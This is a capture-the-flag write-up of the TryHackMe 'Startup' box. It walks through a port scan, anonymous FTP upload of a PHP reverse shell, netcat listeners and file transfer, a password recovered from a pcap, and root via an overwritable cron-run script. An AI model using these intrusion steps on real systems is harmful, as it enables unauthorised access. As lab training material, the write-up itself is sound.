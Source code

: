 # TryHackMe: Startup

## Initial enumeration:

I'll start with a simple port scan.
```bash
rustscan -a 10.10.206.150

PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

The HTTP server just has a message about maintenance. So'll check the FTP server next.

It allows "anonymous" access. 
```bash
ls
229 Entering Extended Passive Mode (|||56589|)
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
```

The "notice.txt" file mentioned someone named "Maya". The jpg was just a meme. The empty ftp server seemed interesting. I'll try to add a file and see if I can access it via the HTTP server.

I'll also use brute force directories on the server.

```bash
feroxbuster -u http://10.10.206.150/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt               

200      GET       20l      113w      808c http://10.10.206.150/
301      GET        9l       28w      314c http://10.10.206.150/files => http://10.10.206.150/files/
200      GET      728l     5285w   461820c http://10.10.206.150/files/important.jpg
200      GET        1l       40w      208c http://10.10.206.150/files/notice.txt
200      GET      728l     5285w   461820c http://10.10.206.150/files/ftp/important.jpg
```

## Initial access:

So, if I can put files in the ftp directory. We also know this is an apache server, so it might execute php code. I ll make a file with a simple php reverse shell.

```bash
rlwrap nc -lnvp 6666

curl http://10.10.28.210/files/ftp/rev.php

$ whoami
www-data
```

## Lateral Movement:

Enumerating through the internal files we can see 2 interesting things.
```bash
$ ls
bin
boot
dev
etc
home
incidents           *
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
recipe.txt      *
root
run
sbin
snap
srv
sys
tmp
usr
vagrant
var
vmlinuz
vmlinuz.old
```

We can also see 2 users.
```bash
$ cat /etc/passwd|grep bash
root:x:0:0:root:/root:/bin/bash
vagrant:x:1000:1000:,,,:/home/vagrant:/bin/bash

lennie:x:1002:1002::/home/lennie:

```

```bash
$ cat recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.
```

In the incidents folder we can see a pcap file.
```bash
$ cd incidents
$ ls
suspicious.pcapng
```

Transfer the pcapng file:
```bash
nc -lvp 7777 >suspicious.pcap # on my machine

nc $MY_IP 7777 <suspicious.pcap # on the remote host
```

Looking through the pcap file we can see a similar initial access vector and bash command being executed. One of those commands is ```sudo -l``` followed by ```c4ntg3t3n0ughsp1c3```
```c4ntg3t3n0ughsp1c3```

We can use ssh to connect as lennie on the host.
```bash
ssh lennie@10.10.66.199 
c4ntg3t3n0ughsp1c3

whoami
lennie
```

## Privilege Escalation:

In Lennie's home folder we can find a folder called ```scripts``` which contains: 
```bash
planner.sh
startup_list.txt
```

```bash
cat planner.sh 

#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh

cat /etc/print.sh

#!/bin/bash
echo "Done!"
```

Checking the ```print.sh``` script reveals we can overwrite it:
```bash
2025/08/24 08:30:01 CMD: UID=0     PID=1713   | /bin/bash /home/lennie/scripts/planner.sh 
2025/08/24 08:30:01 CMD: UID=0     PID=1712   | /bin/sh -c /home/lennie/scripts/planner.sh 
2025/08/24 08:30:01 CMD: UID=0     PID=1711   | /usr/sbin/CRON -f 
```


```bash
lennie@startup:~/Documents$ ls
concern.txt  list.txt  note.txt
lennie@startup:~/Documents$ cat *
I got banned from your library for moving the "C programming language" book into the horror section. Is there a way I can appeal? --Lennie

Shoppinglist: Cyberpunk 2077 | Milk | Dog food

Reminders: Talk to Inclinant about our lacking security, hire a web developer, delete incident logs.
```

Using pspy reveals the existence of a cronjob:
```bash
2025/08/24 08:30:01 CMD: UID=0     PID=1713   | /bin/bash /home/lennie/scripts/planner.sh 
2025/08/24 08:30:01 CMD: UID=0     PID=1712   | /bin/sh -c /home/lennie/scripts/planner.sh 
2025/08/24 08:30:01 CMD: UID=0     PID=1711   | /usr/sbin/CRON -f 
```

So we can change the ```/etc/print.sh``` script so it runs code as root. I'll use this to start a simple reverse shell for that.

```bash
rlwrap nc -lnvp 8888 

whoami
root
```